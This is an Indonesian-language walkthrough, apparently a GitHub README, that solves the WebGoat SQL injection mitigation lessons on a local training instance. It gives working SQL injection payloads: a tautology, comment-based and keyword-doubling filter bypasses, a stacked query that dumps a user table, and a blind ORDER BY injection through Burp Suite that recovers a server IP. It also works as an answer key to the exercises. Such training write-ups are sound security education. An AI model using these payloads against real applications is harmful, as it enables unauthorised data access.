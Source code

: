 # SQL Injection (mitigation)
Ini adalah pertahanan terbaik terhadap SQL injection, yaitu dengan data sebagai satu kesatuan yang terikat pada kolom tanpa interpretasi. 

## Try it! Writing safe code
- Buka halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/SqlInjectionMitigations.lesson/4 masukkan jawaban sebagai berikut
```sh
getConnection
PreparedStatement
prepareStatement
?
?
statement.setString(1, name)
statement.setString(2, mail)
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%201.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%202.JPG)

## Try it! Writing safe code
- Buka halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/SqlInjectionMitigations.lesson/5 dan tuliskan source code berikut ini kemudian tekan tombol **Submit**
```sh
try {
    Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);
    PreparedStatement statement = conn.prepareStatement("SELECT status FROM users WHERE name=? AND mail=?");
    statement.setString(1, "name");
    statement.setString(2, "mail");
    statement.executeUpdate();
} catch (Exception e) {
    System.out.println("Oops. Something went wrong!");
}
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%203.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%204.JPG)

## Input validation alone is not enough!!
- Buka halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/SqlInjectionMitigations.lesson/8
- Ketikkan query injection berikut ini kemudian tekan tombol **Get Account Info**
```sh
a' or '1'='1
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%205.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%206.JPG)

- Setelah diinput, muncul keterangan bahwa inputan spasi tidak diperbolehkan. Kita bisa menggantinya dengan tanda komen `/**/` sehingga query injection menjadi sebagai berikut ini. Inputkan query berikut kemudian tekan tombol **Get Account Info**
```sh
a'/**/or/**/'1'='1
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%207.JPG)

- Query injection tersebut ternyata berhasil. Sekarang kita tinggal membuat query injection untuk menampilkan seluruh data di tabel **user_system_data**
```sh
a';/**/select/**/*/**/from/**/user_system_data;--
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%208.JPG)

## Input validation alone is not enough!!
- Buka halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/SqlInjectionMitigations.lesson/9
- Kita bisa mencoba menginputkan query injection di task sebelumnya
```sh
a';/**/select/**/*/**/from/**/user_system_data;--
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%209.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%2010.JPG)

- Terlihat disini bawah semua string yang berhubungan dengan syntak SQL akan dihapus. Jadi kita bisa mengubahnya menjadi seperti berikut ini, dimana ketika string yang berhubungan syntak dihapus, akan tetap terbentuk query injection diatas
```sh
a';/**/seselectlect/**/*/**/frfromom/**/user_system_data;--
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%2011.JPG)

## Order by clause
- Jalankan tool Burp Suite
- Buka halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/SqlInjectionMitigations.lesson/11 dan klik kolom IP

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%2012.JPG)

- Buka Burp Suite dan cari request yang mengarah ke path URL **/WebGoat/SqlInjectionMitigations/servers?column=ip** lalu klik kanan pada request tersebut dan pilih Send to Repeater

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%2013.JPG)

- Pindah ke tab Repeater lalu tekan tombol **Send**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%2014.JPG)

- Tambahkan tanda petik pada parameter kolom

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%2015.JPG)

- Lalu tekan tombol **Send**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%2016.JPG)

- Sekarang kita injeksikan query berikut ini kemudian tekan tombol **Send**
```sh
(CASE+WHEN+(SELECT+hostname+FROM+servers+WHERE+hostname='webgoat-dev')+=+'webgoat-dev'+THEN+id+ELSE+status+END)
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%2017.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%2018.JPG)

- Sekarang kita coba ubah query injeksinya menjadi seperti berikut
```sh
(CASE+WHEN+(SELECT+hostname+FROM+servers+WHERE+hostname='webgoat-dev')+=+'webgoat-xyz'+THEN+id+ELSE+status+END)
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%2019.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%2020.JPG)

- Dari hasil diatas dapat kita lihat, jika query injection bernilai `true` maka data akan diurutkan berdasarkan id dan jika bernilai `false` data akan diurutkan berdasarkan status. Jadi kita gunakan acuan ini untuk mengecek berapa IP dari hostname `webgoat-prd`. Pertama kita cek digit paling depan dengan query injection berikut
```sh
(CASE+WHEN+(SELECT+substring(ip,1,1)+FROM+servers+WHERE+hostname='webgoat-prd')+=+'1'+THEN+id+ELSE+status+END)
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%2021.JPG)

- Digit paling depan adalah angka `1` sekarang kita cek angka berikutnya
```sh
(CASE+WHEN+(SELECT+substring(ip,2,1)+FROM+servers+WHERE+hostname='webgoat-prd')+=+'0'+THEN+id+ELSE+status+END)
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%2022.JPG)

- Digit selanjutnya adalah angka `0` sekarang tinggal cek angka di digit ke 3
```sh
(CASE+WHEN+(SELECT+substring(ip,3,1)+FROM+servers+WHERE+hostname='webgoat-prd')+=+'4'+THEN+id+ELSE+status+END)
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%2023.JPG)

- Digit ke-3 adalah angka `4`. Jadi IP webgoat-prd di block pertama adalah `104`. Di petunjuk soal, 3 block terakhir IP webgoat-prd adalah `130.219.202`. Jadi IP lengkap webgoat-prd adalah
```sh
104.130.219.202
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%2024.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%2025.JPG)
